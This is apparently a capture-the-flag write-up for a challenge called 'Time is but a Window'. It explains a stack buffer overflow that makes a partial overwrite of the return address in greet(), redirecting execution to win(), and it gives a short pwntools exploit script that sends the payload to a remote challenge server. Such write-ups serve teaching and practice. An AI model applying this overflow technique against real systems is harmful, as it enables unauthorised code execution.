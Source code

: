 <img src="/images/uwsp_2023/TimeisbutaWindow-sol1.png">
</center>
<p></p>

<font size="4">
<p>So we can overflow <code>greet()</code> to change the address of <code>main()</code> to <code>win()</code>.</p>

<p>The address of <code>win()</code> is <code>0x13<u>cb</u></code>, <code>greet()</code> is <code>0x13<u>64</u></code>, and <code>main()</code> is <code>0x13<u>a8</u></code>.</p>

<p>Therefore, we can overflow the entire memory stack for <code>greet()</code>, reach <code>main()</code>, then change <code>a8</code> to <code>cb</code>.</p>
</font>

<font size="4">
{% highlight python %}
import pwn

nc_ed = pwn.remote('34.123.210.162', '20234')
name_len = 16
payload = b'a' * name_len + b'b' * 4 + b'c' * 4 + b'\xcb' 
nc_ed.recvuntil(":")
nc_ed.sendline(payload)
print(payload)
nc_ed.interactive()
{% endhighlight %}
</font>
